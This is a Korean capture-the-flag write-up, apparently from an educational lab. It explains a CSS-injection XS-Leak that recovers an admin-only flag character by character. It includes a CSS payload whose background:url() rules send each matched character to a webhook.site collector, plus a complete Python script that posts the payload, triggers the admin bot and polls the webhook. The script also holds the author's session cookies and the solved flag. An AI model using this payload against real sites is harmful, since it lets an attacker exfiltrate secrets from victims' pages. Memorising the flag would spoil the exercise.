

# 20. CSS Injection — XS-Leak

## 문제 설명
게시글 본문이 `|safe`로 렌더링되어 `<style>`이 실행된다. admin이 글을 볼 때만
flag가 포함된 `<a href="javascript:alert('flag{...}')">`가 렌더링된다.
필터는 `script`·`javascript`·`on*`·`data`를 막지만 `<style>`·CSS 속성 선택자·
`background:url()`은 막지 않는다. 이를 이용해 JS 실행 없이 flag를 한 글자씩 누출한다.

## 원리
CSS 속성 선택자 `a[href*="flag{X"]`는 href에 `flag{X`가 포함될 때만 매칭되고,
매칭 시 `background:url(//수집서버)` 요청이 발생한다.
- 요청이 오면 그 글자가 맞다는 신호(참/거짓 누출).
- 각 후보 글자를 규칙으로 만들어 한 번의 방문에서 어느 요청이 오는지 확인.
- 확정된 접두사에 다음 후보를 붙여 반복하면 flag 전체를 복원한다.

## 익스플로잇

### CSS 페이로드 (게시글 본문)
확정 접두사 + 각 후보 글자마다 규칙을 만든다. (예: 접두사 `flag{9`)
```html
<style>
a[href*="flag{90"]{background:url(https://webhook.site/<ID>/leak?c=0)}
a[href*="flag{91"]{background:url(https://webhook.site/<ID>/leak?c=1)}
...
a[href*="flag{9f"]{background:url(https://webhook.site/<ID>/leak?c=f)}
</style>
```

### 공격 흐름
1. 위 CSS를 본문에 넣어 글을 작성한다(`POST /write`).
2. 그 글의 내부 URL을 신고한다(`POST /report`, `http://xsleak:9106/board/N`).
3. admin 봇이 방문 → href의 flag 접두사와 일치하는 규칙만 외부 요청 발생.
4. webhook 기록에서 온 `?c=` 값으로 다음 글자를 확정.
5. 접두사를 늘려 `}`가 나올 때까지 반복한다.

### 자동화
글 작성 → 신고 → webhook 폴링 → 다음 글자 확정을 반복하는 스크립트로 전체를 복원했다.
```python
import re
import time
import requests

BASE = "http://edu.arang.kr:9106"
INTERNAL = "http://xsleak:9106"
WEBHOOK_ID = "5322b79d-3a2b-480f-b796-d35bfa19b29a"

COOKIES = {
    "userid": "hyeonchang88",
    "JSESSIONID": "482EB7B07EF3652DA426825E0763BE4E",
    "session": "eyJpc0xvZ2luIjp0cnVlLCJ1c2VyaWQiOiJoeWVvbmNoYW5nODgifQ.amyhxg.uhQeEVX3rlH7U7iOcrodBaWWboY",
}
CHARSET = "0123456789abcdef}"

s = requests.Session()
s.cookies.update(COOKIES)

def make_css(prefix):
    lines = []
    for ch in CHARSET:
        tag = "END" if ch == "}" else ch
        lines.append(
            f'a[href*="{prefix}{ch}"]{{background:url(https://webhook.site/{WEBHOOK_ID}/leak?c={tag})}}'
        )
    return "<style>" + "".join(lines) + "</style>"

def write_post(css):
    s.post(f"{BASE}/write", data={"subject": "x", "content": css})
    r = s.get(f"{BASE}/board")
    nums = [int(n) for n in re.findall(r"/board/(\d+)", r.text)]
    return max(nums)

def report(num):
    s.post(f"{BASE}/report", data={"url": f"{INTERNAL}/board/{num}"})

def clear_webhook():
    requests.delete(f"https://webhook.site/token/{WEBHOOK_ID}/request")

def poll_leak(timeout=25):
    url = f"https://webhook.site/token/{WEBHOOK_ID}/requests?sorting=newest"
    end = time.time() + timeout
    while time.time() < end:
        time.sleep(3)
        data = requests.get(url).json().get("data", [])
        for req in data:
            q = req.get("query", {})
            if "c" in q:
                return q["c"]
    return None

def main():
    flag = "flag{"
    while not flag.endswith("}"):
        clear_webhook()
        css = make_css(flag)
        num = write_post(css)
        report(num)
        c = poll_leak()
        if c is None:
            print("[!] no leak, prefix:", flag)
            break
        ch = "}" if c == "END" else c
        flag += ch
        print("[+]", flag)
    print("FLAG:", flag)

if __name__ == "__main__":
    main()
```
생각해보면 웹훅으로 굳이 하지 않아도 됐는데 생각이 짧았다. 실제로 동작시간이 조금 걸리는 편이다.



## 플래그
```
flag{9ac0bfdac88c45268453}
```
